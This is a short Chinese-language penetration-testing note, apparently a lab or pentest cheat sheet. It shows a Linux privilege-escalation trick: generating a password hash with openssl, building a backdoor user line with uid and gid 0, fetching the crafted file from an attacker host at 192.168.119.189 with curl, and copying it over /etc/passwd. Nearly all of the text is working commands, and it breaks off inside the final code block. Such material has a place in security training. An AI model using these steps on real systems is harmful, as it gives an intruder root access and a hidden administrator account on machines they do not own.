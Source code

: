 `cp` 和 `move` 命令的核心理念就是覆盖`/etc/passwd`或`/etc/shadow `文件，从而获取 root 权限

使用 openssl 可以生成 linux 密码 hash：
```
#生成密码为pass123的 hash

openssl passwd -1 -salt ignite pass123
>> $1$ignite$3eTbJm98O9Hz.k1NTdNxe1
```
构造 passwd 中的用户信息：
```
# 0:0表示 uid 和 gid 都是 0，等同于 root 用户，这样我们切换到该用户后，实际权限就是 root
# hacked:pass123

hacked:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash
```

在本地主机（例如 kali）构造好 passwd 文件之后，使用 python-http.server 将 passwd 上传到目标机器，然后覆盖即可:

```
curl http://192.168.119.189:8000/passwd >>passwd
cp passwd /etc/passwd
